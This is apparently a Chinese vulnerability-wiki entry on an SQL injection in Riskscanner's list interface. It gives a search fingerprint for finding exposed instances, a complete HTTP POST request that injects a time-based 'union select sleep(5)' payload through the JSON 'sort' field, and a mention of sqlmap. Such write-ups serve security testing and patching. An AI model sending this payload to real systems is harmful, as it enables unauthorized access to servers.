 # Riskscanner list SQL注入漏洞

## 漏洞描述

Riskscanner list接口存在SQL注入漏洞，通过漏洞可获取服务器权限

## 漏洞影响

<a-checkbox checked>Riskscanner</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Riskscanner"</a-checkbox></br>

## 漏洞复现

登录页面



![img](/assets/PeiQi-Wiki/img/image-20210718204906366.png)



发送漏洞请求包

```plain
POST /resource/list/1/10 HTTP/1.1
Host: 
Content-Length: 41
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Content-Type: application/json;charset=UTF-8

{"sort":"1)a union select sleep(5) -- -"}
```



![img](/assets/PeiQi-Wiki/img/image-20210718204929186.png)



使用工具Sqlmap

![img](/assets/PeiQi-Wiki/img/image-20210718204944301.png)